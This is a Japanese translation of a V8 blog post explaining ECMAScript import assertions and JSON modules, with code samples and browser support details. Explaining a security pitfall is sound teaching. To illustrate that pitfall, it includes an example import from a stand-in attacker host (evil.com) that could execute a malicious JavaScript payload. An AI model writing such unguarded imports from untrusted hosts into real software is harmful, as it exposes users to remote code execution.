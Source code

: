```yaml
---
title: &apos;インポートアサーション&apos;
author: &apos;Dan Clark ([@dandclark1](https://twitter.com/dandclark1)), インポートアサーションの主張者&apos;
avatars:
  - &apos;dan-clark&apos;
date: 2021-06-15
tags:
  - ECMAScript
description: &apos;インポートアサーションにより、モジュール指定子とともに追加の情報をインポート文に含めることができます&apos;
tweet: &apos;&apos;
---
```


新しい[インポートアサーション](https://github.com/tc39/proposal-import-assertions)機能により、モジュール指定子とともに追加の情報をインポート文に含めることができます。この機能の初期の用途として、JSON文書を[JSONモジュール](https://github.com/tc39/proposal-json-modules)としてインポート可能にすることがあります:

<!--truncate-->
```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from &apos;./foo.json&apos; assert { type: &apos;json&apos; };
console.log(json.answer); // 42
```

## 背景: JSONモジュールとMIMEタイプ

自然に浮かぶ疑問は、JSONモジュールを次のように単純にインポートできない理由です:

```javascript
import json from &apos;./foo.json&apos;;
```

WebプラットフォームはモジュールリソースのMIMEタイプを実行前に有効性を確認し、このMIMEタイプを使ってリソースをJSONとして扱うかJavaScriptモジュールとして扱うかを判断することも理論的には可能です。

しかし、MIMEタイプだけに依存することには[セキュリティ問題](https://github.com/w3c/webcomponents/issues/839)があります。

モジュールはクロスオリジンでインポート可能で、開発者は第三者ソースからJSONモジュールをインポートすることがあるかもしれません。適切にサニタイズされている限り、JSONをインポートすることでスクリプトが実行されることはないため、基本的に安全だと考えるかもしれません。

しかし、この場合でも第三者のスクリプトが実際に実行される可能性があります。予期せずJavaScript MIMEタイプと悪意のあるJavaScriptペイロードを返すサーバが輸入者のドメインでコードを実行することができるためです。

```javascript
// JavaScript MIMEタイプ (例: `text/javascript`) を
// evil.comが返答した場合、JSを実行します!
import data from &apos;https://evil.com/data.json&apos;;
```

ファイル拡張子を使用してモジュールタイプを判別することはできません。なぜなら、[ウェブ上ではコンテンツタイプの信頼できる指標ではない](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md)からです。そのため、インポートアサーションを用いて期待されるモジュールタイプを示し、この権限昇格の落とし穴を防ぎます。

開発者がJSONモジュールをインポートしたい場合は、それがJSONであることを指定するインポートアサーションを使用する必要があります。ネットワークから受け取ったMIMEタイプが期待されるタイプと一致しない場合、インポートは失敗します:

```javascript
// evil.comが非JSON MIMEタイプで返答した場合は失敗します。
import data from &apos;https://evil.com/data.json&apos; assert { type: &apos;json&apos; };
```

## 動的`import()`

インポートアサーションは、[動的`import()`](https://v8.dev/features/dynamic-import#dynamic)に新しい2番目のパラメータとしても渡すことができます:

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import(&apos;./foo.json&apos;, {
  assert: { type: &apos;json&apos; }
});
console.log(jsonModule.default.answer); // 42
```

JSONコンテンツはモジュールのデフォルトエクスポートであるため、`import()`から返されるオブジェクトの`default`プロパティを通じて参照されます。

## 結論

現在、インポートアサーションの唯一の指定された用途はモジュールタイプの指定です。しかし、機能は任意のキー／値アサーションペアを許容するように設計されているため、将来、モジュールインポートを別の方法で制限することが有用になる場合に追加の用途が追加される可能性があります。

一方、新しいインポートアサーション構文を使用したJSONモジュールはChromium 91でデフォルトで利用可能です。[CSSモジュールスクリプト](https://chromestatus.com/feature/5948572598009856)もすぐに登場する予定で、同じモジュールタイプアサーション構文を使用します。

## インポートアサーションのサポート

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="no"
                 safari="no"
                 nodejs="no"
                 babel="yes https://github.com/babel/babel/pull/12139"></feature-support>
